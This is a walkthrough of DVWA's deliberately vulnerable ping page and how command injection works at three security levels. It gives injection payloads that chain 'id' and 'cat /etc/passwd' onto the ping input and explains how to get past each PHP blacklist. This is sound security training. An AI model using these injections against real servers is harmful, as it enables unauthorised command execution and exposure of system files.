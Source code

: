 # DVWA - Command Injection

## Description

**Vulnerability:** Command injection    
**Impact:** Get access to server resources through `ping` function.

---

## LOW Security Level
This LOW level ping function doesn't have any filter or regex to check the input we enter for them. Therefore, we can leverage this vulnerability to execute additional commands to the server.
Example:
```
1.1.1.1; id
```
This payload will `ping 1.1.1.1` but also run `id`. The result is:
```bash
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
64 bytes from 1.1.1.1: icmp_seq=1 ttl=52 time=63.0 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=52 time=93.5 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=52 time=76.8 ms
64 bytes from 1.1.1.1: icmp_seq=4 ttl=52 time=50.4 ms

--- 1.1.1.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 50.401/70.910/93.461/16.016 ms
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

![Guide image](./screenshots/1.png)

We can see that we are `www-data` since this is the role that host the website. Try payload `1.1.1.1; cat /etc/passwd`. This should be the same `/etc/passwd` content on your computer.

## MEDIUM Security Level
This MEDIUM level has a blacklist:
```php
// Set blacklist
$substitutions = array(
    '&&' => '',
    ';'  => '',
);

// Remove any of the characters in the array (blacklist).
$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```
This blacklist will prevent us from using the payload in LOW security level. However, instead of `&&` and `;` we can use other keywords which is `|`. The payload is:
```bash
| id

# or 

| cat /etc/passwd
```
It should show the same result as LOW security level.

![Guide image](./screenshots/1.png)

## HIGH Security Level
This is the new blacklist
```php
// Set blacklist
$substitutions = array(
    '||' => '',
    '&'  => '',
    ';'  => '',
    '| ' => '',
    '-'  => '',
    '$'  => '',
    '('  => '',
    ')'  => '',
    '`'  => '',
);
```
You can see that it prevent a bunch of operators however focus on this line:
```php
'| ' => '',
```
It just blacklist the `'| '` so `'|'` will not be prevented. We can leverage the payload:
```
1.1.1.1|id

1.1.1.1|cat /etc/passwd
```

![Guide image](./screenshots/1.png)

## Resources
- https://www.scribd.com/doc/2530476/Php-Endangers-Remote-Code-Execution
- http://www.ss64.com/bash/
- http://www.ss64.com/nt/
- https://owasp.org/www-community/attacks/Command_Injection
